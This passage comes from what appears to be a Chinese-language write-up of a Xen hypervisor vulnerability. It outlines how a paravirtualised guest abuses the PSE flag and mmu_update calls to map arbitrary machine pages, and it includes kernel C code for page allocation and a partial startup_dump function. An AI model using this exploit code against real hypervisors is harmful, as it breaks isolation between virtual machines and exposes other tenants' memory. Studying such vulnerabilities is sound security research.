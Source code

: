 
整合起来,漏洞利用过程如下:

* 取一个虚拟地址,
* 设置其对应的 L2 条目中的 PSE 标志,
* 以写权限访问整个 L1表 并构造表项绕过 Xen “不变性”,
* 取消之前设置的 PSE 标志,
* 访问任意物理页 :)。

QubesOS 的公告也有此漏洞的详细解释(4)。

# 利用

## 映射任意实机页面

我相信你掌握了实质,但这里仍有一个小问题:当 PSE 标志在 L2 条目中被设置,一些 L1地址的保留位应保持清除。

![][6]

因此,需要找到一个保留位为0的可用的页帧号。 这可以通过Linux 分配器使用 `__get_free_pages` 函数请求 2MB连续内存来完成。

```
// get an aligned mfn
aligned_mfn_va = (void*) __get_free_pages(__GFP_ZERO, 9);
DEBUG("aligned_mfn_va = %p", aligned_mfn_va);
DEBUG("aligned_mfn_va mfn = 0x%lx", __machine_addr(aligned_mfn_va));
page_walk((unsigned long) aligned_mfn_va);
```

2MB 内存映射的PSE 标记已经被设置,我们需要预备 2MB 虚拟内存,因为我们不希望其他客户机与那些虚拟地址交互。

```
// get a 2Mb virtual memory
l2_entry_va = (void*) __get_free_pages(__GFP_ZERO, 9);
DEBUG("l2_entry_va = %p", l2_entry_va);
DEBUG("l2_entry_va mfn = 0x%lx", __machine_addr(l2_entry_va));
page_walk((unsigned long) l2_entry_va);
```

现在,取保留位为0的页帧号,并用在我们预备的 2MB 虚拟地址范围的 L2 值。这是必须的,因为这个预备的范围的 L2 值的保留位已置为1。因对齐的页帧号在别的地方映射为写权限,我们必须取消对应条目的 RW 标志来保持 Xen “不变性”。这些在 startup_dump 函数中实现:

```
int startup_dump(unsigned long l2_entry_va, unsigned long aligned_mfn_va)
{
        pte_t *pte_aligned = get_pte(aligned_mfn_va);
        pmd_t *pmd = get_pmd(l2_entry_va);
        int rc;

        // removes RW bit on the aligned_mfn_va's pte
        rc = mmu_update(__machine_addr(pte_aligned) | MMU_NORMAL_PT_UPDATE, pte_aligned->pte & ~_PAGE_RW);
        if(rc < 0)
        {
                printk("cannot unset RW flag on PTE (0x%lx)\n", aligned_mfn_va);
                return -1;
        }

        // map.
        rc = mmu_update(__machine_addr(pmd) | MMU_NORMAL_PT_UPDATE, (__mfn((void*) aligned_mfn_va) << PAGE_SHIFT) | PMD_FLAG);
        if(rc < 0)
        {
                printk("cannot update L2 entry 0x%lx\n", l2_entry_va);
                return -1;
        }

```

[1]: https://p1.ssl.qhimg.com/t01cc39f6c4744f14d5.png
[2]: https://p1.ssl.qhimg.com/t0191f3c2792bba6bd5.png
[3]: https://p5.ssl.qhimg.com/t0192921f0ec6d29bc3.png
[4]: https://p2.ssl.qhimg.com/t019c7724c77a43882b.jpg
[5]: https://p3.ssl.qhimg.com/t01bb8352a38dc19d64.png
[6]: https://p4.ssl.qhimg.com/t01a55b8953562a62ed.png